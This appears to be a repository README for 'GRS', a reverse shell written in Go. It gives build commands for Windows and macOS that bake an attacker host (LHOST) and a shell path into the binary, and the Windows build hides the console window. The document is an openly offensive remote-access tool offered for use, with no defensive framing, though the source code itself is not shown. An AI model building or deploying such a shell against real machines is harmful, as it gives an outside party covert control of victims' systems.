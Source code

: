 # GRS
### A Golang reverse shell


#### To build:
Windows:
        `$ go build -ldflags "-X 'main.host=LHOST' -X 'main.shellPath=shell path' -H windowsgui" "windows/GRS.go"`
    
Darwin:
        `$ go build -ldflags "-X 'main.host=LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"`
